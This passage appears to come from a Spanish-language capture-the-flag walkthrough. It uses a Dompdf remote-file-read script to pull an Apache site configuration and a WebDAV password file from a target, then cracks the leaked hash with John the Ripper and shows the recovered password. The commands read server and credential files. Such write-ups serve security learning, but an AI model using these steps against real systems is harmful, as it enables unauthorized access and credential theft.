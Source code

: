 ```bash
# ./Dompdf-RemoteFileRead.sh /etc/apache2/sites-available/000-default.conf                                                                                                                                 
<VirtualHost *:80>
        # The ServerName directive sets the request scheme, hostname and port that
        # the server uses to identify itself. This is used when creating
        # redirection URLs. In the context of virtual hosts, the ServerName
        # specifies what hostname must appear in the request's Host: header to
        # match this virtual host. For the default virtual host (this file) this
        # value is not decisive as it is used as a last resort host regardless.
        # However, you must set it for any further virtual host explicitly.
        #ServerName www.example.com

        ServerAdmin webmaster@localhost
        DocumentRoot /var/www/html

        # Available loglevels: trace8, ..., trace1, debug, info, notice, warn,
        # error, crit, alert, emerg.
        # It is also possible to configure the loglevel for particular
        # modules, e.g.
        #LogLevel info ssl:warn

        ErrorLog ${APACHE_LOG_DIR}/error.log
        CustomLog ${APACHE_LOG_DIR}/access.log combined

        # For most configuration files from conf-available/, which are
        # enabled or disabled at a global level, it is possible to
        # include a line for only one particular virtual host. For example the
        # following line enables the CGI configuration for this host only
        # after it has been globally disabled with "a2disconf".
        #Include conf-available/serve-cgi-bin.conf
        Alias /webdav_test_inception /var/www/html/webdav_test_inception
        <Location /webdav_test_inception>
                Options FollowSymLinks
                DAV On
                AuthType Basic
                AuthName "webdav test credential"
                AuthUserFile "/var/www/html/webdav_test_inception/webdav.passwd"
                Require valid-user
        </Location>
</VirtualHost>

# vim: syntax=apache ts=4 sw=4 sts=4 sr noet
```

Encontramos la ruta a  `/webdav_test_inception/webdav.passwd`
Usamos nuestro script para visualizar el archivo en la ruta `/var/www/html/webdav_test_inception/webdav.passwd`
```bash
# ./Dompdf-RemoteFileRead.sh /var/www/html/webdav_test_inception/webdav.passwd                                                                                                   

"webdav_tester": "$apr1$8rO7Smi4$yqn7H.GvJFtsTou1a7VME0"
```
Encontramos un hash que vamos a intentar romper con john:
```bash
# john --wordlist=/usr/share/wordlists/rockyou.txt hash
# john --show hash                                                                                                                                                               

"webdav_tester": "babygurl69"

1 password hash cracked, 0 left
```
